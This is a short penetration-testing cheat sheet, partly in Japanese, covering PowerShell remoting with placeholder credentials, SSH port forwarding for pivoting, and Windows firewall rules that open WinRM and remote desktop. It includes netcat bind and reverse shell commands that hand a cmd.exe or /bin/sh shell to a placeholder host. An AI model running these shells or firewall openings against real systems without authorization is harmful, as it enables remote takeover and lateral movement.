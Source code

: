 # penetration-wiki

## PS-Session

### Server Settings

- username = `easyduck`
- password = `verystrongpassword`
- hostname = `rhostname`
- ipaddress = `xxx.xxx.xxx.xxx`

```pwsh
Enable-PSRemoting
Set-NetFirewallRule -Name "WINRM-HTTP-In-TCP-PUBLIC" -RemoteAddress Any
net start WinRM
```

### Client

pattern 1

```pwsh
Enter-PSSession -ComputerName "xxx.xxx.xxx.xxx" -Credential "easyduck"
```

pattern 2

```pwsh
Enter-PSSession -ComputerName "hostname"-Credential "easyduck"
```

## Netcat

- rhost_ip: xxx.xxx.xxx.xxx
- lhost_ip: yyy.yyy.yyy.yyy
- rhost_open_port: 4444
- lhost_open_port: 5555

### bindshell

1. rhost : nc -nlvp 4444 -e cmd.exe
1. lhost : nc -nv xxx.xxx.xxx.xxx 4444

### reverseshell

1. rhost : nc -nv yyy.yyy.yyy.yyy 5555 -e cmd.exe
1. lhost : nc -nlvp 5555

## Server Settings

- RPORT = `4444`
- RHOST = `xxx.xxx.xxx.xxx`

```bash
nc -lvp 4444 -e /bin/sh
nc -lvp 4444 -e cmd.exe
```

> **Note**
> must not `cmd` only


## Client

```bash
nc xxx.xxx.xxx.xxx 4444
```

## SSH Port Forwarding

### Local forward

remoteを経由してローカルにあるツールをtargetに対して使いたい場合

```
ssh -fNT -L xxx:target:zzz remote
```

### Remote forward

localを経由して外部にあるtargetにremoteからアクセスさせたい場合

```
ssh -fNT -R xxx:remote:zzz target
```

### Dynamic portforwarding

local を起点とし、remote にsshdが立っているとする。 このとき下記のように-Dオプションを指定して接続することで、local から見たlocalhost:1080がSOCKS Proxyとなる。 なお、SOCKS Proxyのポート番号はtcp/1080が標準的に用いられる [RFC 1928]。

on user@local

```
ssh -D 1080 user@remote
```

ここで local のブラウザ設定からlocalhost:1080をSOCKS Proxyとして指定すると、ブラウザからのすべてのアクセスが remote を経由したアクセスとなる。

## Windows Firewall Settings

### with pwsh

https://docs.microsoft.com/ja-jp/windows/security/threat-protection/windows-firewall/windows-firewall-with-advanced-security-administration-with-windows-powershell

```pwsh
Set-NetFirewallRule -Name "WINRM-HTTP-In-TCP-PUBLIC" -RemoteAddress Any
New-NetFirewallRule -Name <名前> -DisplayName <表示名> -Enabled true -Profile <有効にするプロファイル> -Action Allow -LocalAddress Any -RemoteAddress Any -Protocol TCP -LocalPort 10050 -RemotePort Any
New-NetFirewallRule -name 'DPF' -displayname 'DPF' -enable true -profile any -action allow -LocalAddress Any -RemoteAddress Any -Protocol TCP -LocalPort 1080 -RemotePort Any
# OnWorkgroup
Get-NetFirewallRule -Name FPS-ICMP4-ERQ-In | Set-NetFirewallRule -enabled true
Get-NetFirewallRule -Name FPS-ICMP6-ERQ-In | Set-NetFirewallRule -enabled true
# OnDomain
Get-NetFirewallRule -name  FPS-ICMP4-ERQ-In-NoScope | Set-NetFirewallRule -enable true
Get-NetFirewallRule -name  FPS-ICMP6-ERQ-In-NoScope | Set-NetFirewallRule -enable true

Get-NetFirewallRule | ? Name -match "FPS-ICMP.-ERQ-In" | Set-NetFirewallRule -Enabled True
```

### with batch

https://docs.microsoft.com/en-US/troubleshoot/windows-server/networking/netsh-advfirewall-firewall-control-firewall-behavior

```batch
netsh advfirewall firewall add rule name="My Application" dir=in action=allow program="C:\MyApp\MyApp.exe" enable=yes

netsh advfirewall firewall add rule name="My Application" dir=in action=allow program= "C:\MyApp\MyApp.exe" enable=yes remoteip=157.60.0.1,172.16.0.0/16,LocalSubnet profile=domain

netsh advfirewall firewall add rule name="My Application" dir=in action=allow program= "C:\MyApp\MyApp.exe" enable=yes remoteip=157.60.0.1,172.16.0.0/16,LocalSubnet profile=domain
netsh advfirewall firewall add rule name="My Application" dir=in action=allow program="C:\MyApp\MyApp.exe" enable=yes remoteip=157.60.0.1,172.16.0.0/16,LocalSubnet profile=private

netsh advfirewall firewall add rule name= "Open Port 80" dir=in action=allow protocol=TCP localport=80

netsh advfirewall firewall delete rule name= rule name program="C:\MyApp\MyApp.exe"

netsh advfirewall firewall delete rule name= rule name protocol=udp localport=500
  
netsh advfirewall reset
    
netsh advfirewall firewall set rule group="File and Printer Sharing" new enable=Yes
    
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes
    	
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes profile=domain
  
netsh advfirewall firewall add rule name="ICMP Allow incoming V4 echo request" protocol=icmpv4:8,any dir=in action=allow
  
netsh advfirewall firewall add rule name= "All ICMP V4" protocol=icmpv4:any,any dir=in action=allow
  
netsh advfirewall firewall add rule name="Block Type 13 ICMP V4" protocol=icmpv4:13,any dir=in action=block

netsh advfirewall firewall set rule group="remote desktop" new enable=Yes profile=private
```
